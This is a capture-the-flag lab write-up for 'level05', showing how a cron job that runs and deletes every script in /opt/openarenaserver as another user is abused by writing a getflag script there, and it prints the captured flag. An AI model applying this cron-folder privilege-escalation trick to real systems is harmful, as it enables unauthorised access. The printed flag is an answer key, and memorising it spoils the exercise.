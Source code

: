 # level05 solve

After a few minutes we receive a message

```
> You have new mail in /var/mail/level05
```

Openning the file we got an bash command

```
$ cat level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

But some part was weird, so we decide to learn on the web what could be appends running that command.
After some research, we understood that was a <a href="https://cron-job.org/en/">cronjob</a> (search <a href="https://book.cakephp.org/2/fr/console-and-shells/cron-jobs.html">1</a>, <a href="https://www.thegeekstuff.com/2011/07/cron-every-5-minutes/">2</a>)

So with being informed, we decide to see what the cron script does

```
$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done
```

Because it's a cron, we know that will be a loop on all scripts in the folder, running and be deleted, and that every 2 minutes.

With that knowledge, we can create a script to get the password

Ok let try that

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/file
```

Waiting some time later (2min max)

```
$ cat /tmp/flag
> viuaaale9huek52boumoomioc
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level04">previous level</a> - <a href="../../level06">next level</a>
